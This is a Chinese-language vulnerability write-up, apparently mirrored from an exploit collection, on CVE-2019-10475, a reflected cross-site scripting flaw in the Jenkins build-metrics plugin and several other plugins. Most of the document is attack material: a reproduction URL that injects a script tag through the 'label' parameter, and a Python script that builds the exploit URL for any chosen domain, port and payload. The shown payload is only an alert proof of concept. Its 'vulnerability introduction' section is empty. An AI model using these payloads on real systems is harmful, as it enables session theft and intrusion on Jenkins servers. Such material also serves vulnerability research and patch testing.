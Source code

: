 # （CVE-2019-10475） 插件反射型 xss

> 原文：[http://book.iwonder.run/0day/Jenkins/（CVE-2019-10475）.html](http://book.iwonder.run/0day/Jenkins/（CVE-2019-10475）.html)

## 一、漏洞简介

## 二、漏洞影响

360 FireLine 插件， 最高包括 1.7.2 Bitbucket OAuth 插件， 最高包括 0.9 Build-metrics 插件 1.3 及以下 部署 WebLogic Plugin 最高至 4.1 Dynatrace 应用程序监视插件， 最高包括 2.1.3 Dynatrace 应用程序监视插件， 最高包括 2.1.4 ElasticBox Jenkins Kubernetes CI / CD 插件， 最高至 1.3 包含 1.1.4 及以下版本的 全局 Post Script 插件 Libvirt Slaves 插件， 最高包括 1.8.5 截至 2.7.0 的 Mattermost Notification 插件 Sonar Gerrit 插件， 最高包括 2.3 Zulip 插件 （包括 1.1.0 及以下）

## 三、复现过程

### 1、手工复现

该 vulnearble 插件位于[http://localhost:8080/plugin/build-metrics/，漏洞参数为 label。](http://localhost:8080/plugin/build-metrics/，漏洞参数为 label。)

```
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search 
```

![image](img/f132bbb976ebb54e65bbbf99e54e8b9e.png)

### 2、利用脚本

```
#!/usr/bin/env python

import sys
import argparse

VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''

def get_parser():
    parser = argparse.ArgumentParser(description='CVE-2019-10475')
    parser.add_argument('-p', '--port', help='port', default=80, type=int)
    parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
    parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
    return parser

def main():
    parser = get_parser()
    args = vars(parser.parse_args())
    port = args['port']
    domain = args['domain']
    inject = args['inject']
    if port == 80:
        base_url = f'http://{domain}'
    elif port == 443:
        base_url = f'https://{domain}'
    else:
        base_url = f'http://{domain}:{port}'
    build_url = VULN_URL.format(base_url=base_url, inject=inject)
    print(build_url)
    return 0

if __name__ == '__main__':
    sys.exit(main()) 
```

```
Usage:

$ python3 CVE-2019-10475.py --help
usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

CVE-2019-10475

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port
  -d DOMAIN, --domain DOMAIN
                        domain
  -i INJECT, --inject INJECT
                        inject 
```

